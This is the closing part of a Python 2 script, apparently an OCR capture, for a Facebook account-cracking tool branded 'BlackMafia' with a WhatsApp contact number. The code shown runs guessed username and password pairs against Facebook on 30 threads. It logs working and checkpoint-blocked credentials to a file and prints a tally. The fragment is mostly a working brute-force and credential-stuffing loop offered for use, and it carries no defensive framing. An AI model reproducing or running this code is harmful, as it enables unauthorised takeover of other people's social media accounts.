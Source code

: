 																oks.append(user+pass7)

															else:

																if 'www.facebook.com' in q["error_msg"]:

																	print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7

																	cek = open("out/checkpoint.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																	

															

		except:

			pass

		

	p = ThreadPool(30)

	p.map(main, id)

	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"

	print "  \033[1;93m«---•◈•---Developed By love---•◈•---»" #Dev:love_hacker

	print '\033[1;91mProcess Has Been Completed\033[1;92m....'

	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;95m"+str(len(cekpoint))

	print """

             

             ...........███ ]▄▄▄▄▄▃

             ..▂▄▅█████▅▄▃▂

             [███████████████]

             ◥⊙▲⊙▲⊙▲⊙▲⊙▲⊙◤

♡──────────────•◈•──────────────♡.

: \033[1;96m .....lovehacker  BlackMafia........... \033[1;93m :

♡──────────────•◈•──────────────♡.' 

                whatsapp Num

               +923090678109"""

	

	raw_input("\n\033[1;92m[\033[1;94mBack\033[1;96m]")

	menu()

if __name__ == '__main__':

	login()
